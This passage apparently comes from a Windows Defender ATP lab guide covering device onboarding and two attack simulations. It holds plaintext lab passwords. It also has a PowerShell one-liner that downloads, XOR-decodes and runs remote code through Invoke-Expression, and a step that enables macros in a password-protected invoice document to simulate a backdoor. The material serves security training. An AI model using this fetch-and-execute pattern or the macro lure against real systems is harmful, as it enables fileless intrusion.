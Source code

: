 	+++LabUser+++

	+++Pa$$w0rd+++

1. [] Press **(Y)** to confirm onboarding.
2. [] Return to the browser and click **Start using Windows Defender ATP** (ignore any warnings about onboarding).
3. [] In the Windows Defender Security Center, click on **Settings > Advanced Features** and toggle the switches on for **Azure ATP integration**, **Office 365 Threat Intelligence Connection**, **Microsoft Cloud App Security**, and **Azure Information Protection** and press the **Save preferences** button at the bottom of the page.
	
	![g47p8c30.jpg](/Media/g47p8c30.jpg)

3. [] Switch to @lab.VirtualMachine(VictimPC).SelectLink and log in with the credentials below.

	+++JeffV+++

	+++Password$fun+++

1. [] Open an Edge InPrivate window and navigate to +++https://securitycenter.windows.com/preferneces2/onboarding+++.
1. [] Log in using the credentials below:

	+++@lab.CloudCredential(134).Username+++

	+++@lab.CloudCredential(134).Password+++
1. [] Click **Download package** and **Open** when the download dialog pops up.
2. [] Copy the **WindowsDefenderATPLocalOnboardingScript** to the desktop.
3. [] Right-click on **WindowsDefenderATPLocalOnboardingScript** and click **Run as Administrator**.
4. [] Press **(Y)** to confirm onboarding.
5. [] Run **Attack Simulation #1 "Automated investigation (fileless attack)"** by following the instructions below:
	1. [] Open a PowerShell window and click on the code below to type it in the window (please wait until you see **($decryptedBytes))** before pressing **Enter**):
	
	+++[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))+++

1. [] Switch to @lab.VirtualMachine(AdminPC).SelectLink and run **Attack Simulation #2 "Automated investigation (backdoor)"** by following the instructions below:
	1. [] On the desktop, double-click on **RS4_WinATP-Intro-Invoice.docm** and enter +++WDATP!diy#+++ when prompted for a password.
	2. [] Once the file opens, in the **Security Warning** ribbon, click **Enable Content**.
	3. [] Click **OK** to confirm the attack.
	4. [] Press **Enter** to close the command prompt window.
===
# Workplace Join Clients
